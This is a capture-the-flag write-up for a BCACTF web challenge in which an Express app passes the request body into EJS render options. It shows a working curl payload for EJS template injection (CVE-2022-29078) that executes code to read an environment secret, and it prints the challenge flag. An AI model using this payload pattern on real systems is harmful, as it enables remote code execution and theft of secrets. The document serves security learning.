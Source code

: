 ```yaml
---
ai_date: 2025-04-27 05:12:46
ai_summary: EJS RCE vulnerability exploited to steal the flag
ai_tags:
  - xss
  - rce
  - ejs
created: 2024-06-10T01:41
updated: 2025-07-14T09:46
---
```


> This old service lets you make some interesting queries. It hasn't been updated in a while, though.

---

```js
res.render('search', {
	summary,
	notFound: false,
	...req.body
})
```

The server dumped all of our form body into express view options, ~~that's great~~ that's not good, …and `ejs@3.1.6` has a 9.8/10 RCE.

Find more info here [EJS, Server side template injection RCE (CVE-2022-29078) - writeup | ~#whoami Eslam Salem](https://eslam.io/posts/ejs-server-side-template-injection-rce/).

With the information we have we can create our payload easily.

```sh
curl --request POST \
  --url http://challs.bcactf.com:30684/ \
  --header 'Content-Type: application/x-www-form-urlencoded' \
  --data breed=pekin \
  --data 'settings[view options][outputFunctionName]=x;__output+=Deno.env.get("FLAG");s'
```

And boom, our flag is here.

```flag
bcactf{a_l1Ttl3_0uTd4T3d_qYR8IeICVTLPU0uK}
```